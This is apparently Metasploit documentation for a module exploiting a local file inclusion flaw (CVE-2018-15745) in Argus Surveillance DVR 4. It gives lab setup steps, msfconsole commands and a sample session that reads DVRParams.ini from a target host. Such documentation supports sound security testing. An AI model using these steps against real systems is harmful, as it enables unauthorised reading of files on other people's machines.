 ## Vulnerable Application
This module leverages an issue with how the `RESULTPAGE` parameter within `WEBACCCOUNT.cgi` handles file referencing and as a result is vulnerable to Local File Inclusion (LFI). 

## Options
To successfully read contents of the Windows file system you must set the full file path of the file you want to check using `TARGET_FILE` (not including the drive letter prefix). 
As a first run it is recommended to try leaking `Windows/system.ini` as a validation exercise on your first module run.

## Testing
To setup a test environment, the following steps can be performed:
1. Set up a Windows operating system (any OS that has C:\Windows\system.ini)
2. Download the [Argus DVR 4 Software](https://download.cnet.com/argus-surveillance-dvr/3000-2348_4-10576796.html)
3. Run the Argus software and a webpage running on port 8080 will appear. Take note of the machine's IP
4. On your attacker machine follow the verification steps below.

## Verification Steps
1. start msfconsole
2. `use auxiliary/gather/argus_dvr4_lfi_cve_2018_15745`
3. `set RHOSTS <TARGET_IP_ADDRESS>`
4. `set TARGET_FILE Windows/system.ini`
5. `run`

## Scenarios
### Utilising Argus DVR 4 CVE-2018-15745 to Leak DVRParams.ini
```
msf6 > use auxiliary/gather/argus_dvr_4_lfi_cve_2018_15745 
msf6 auxiliary(gather/argus_dvr_4_lfi_cve_2018_15745) > set RHOSTS 192.168.1.15
RHOSTS => 192.168.1.15
msf6 auxiliary(gather/argus_dvr_4_lfi_cve_2018_15745) > set TARGET_FILE ProgramData/PY_Software/Argus Surveillance DVR/DVRParams.ini
TARGET_FILE => ProgramData/PY_Software/Argus Surveillance DVR/DVRParams.ini
msf6 auxiliary(gather/argus_dvr_4_lfi_cve_2018_15745) > run
[*] Running module against 192.168.1.15
[*] Sending request to 192.168.1.15:8080 for file: ProgramData/PY_Software/Argus%20Surveillance%20DVR/DVRParams.ini
[+] File retrieved successfully!
[Main]
ServerName=
ServerLocation=
ServerDescription=
ReadH=0
UseDialUp=0
DialUpConName=
DialUpDisconnectWhenDone=0
DIALUPUSEDEFAULTS" checked checked

[*] Auxiliary module execution completed

```